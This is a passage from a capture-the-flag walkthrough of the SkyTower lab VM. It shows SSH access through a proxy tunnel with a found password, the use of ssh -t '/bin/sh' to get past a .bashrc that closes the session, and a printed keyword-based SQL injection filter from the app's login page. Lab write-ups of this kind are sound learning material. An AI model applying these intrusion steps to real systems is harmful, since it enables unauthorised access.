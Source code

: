 
A quick netstat shows that our local port is available


``` bash
root@pwk:~# netstat -antp tcp | grep :222
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:222             0.0.0.0:*               LISTEN      5135/proxytunnel: 
```


Let us SSH into it with the provided credentials


``` bash

root@pwk:~# ssh john@127.0.0.1 -p 222
The authenticity of host '[127.0.0.1]:222 ([127.0.0.1]:222)' can't be established.
ECDSA key fingerprint is f6:3b:95:46:6e:a7:0f:72:1a:67:9e:9b:8a:48:5e:3d.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[127.0.0.1]:222' (ECDSA) to the list of known hosts.
john@127.0.0.1's password:
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jun 20 07:41:08 2014

Funds have been withdrawn
Connection to 127.0.0.1 closed.
root@pwk:~#
```


Seems like the admins have been clever, and have edited this users .bashrc file to terminate the session upon connection. It is possible to use the -t argument of the SSH client to execute an application when a connection is made, so how about running a shell ?


``` bash
root@pwk:~# ssh john@127.0.0.1 -p 222 -t "/bin/sh"
john@127.0.0.1's password: hereisjohn
john@SkyTower:~$
```


First things first, that SQLi filter - what did it look like in it's entirety ?

[php]$sqlinjection = array("SELECT", "TRUE", "FALSE", "--","OR", "=", ",", "AND", "NOT");
$email = str_ireplace($sqlinjection, "", $_POST['email']);
$password = str_ireplace($sqlinjection, "", $_POST['password']);[/php]

Quite simple, but annoying none the less. Thankfully it was easily bypassed.
It's obvious while looking at the /var/www/login.php file that the application uses a MySQL database to handle logins. The MySQL credentials are helpfully in plain text within the file
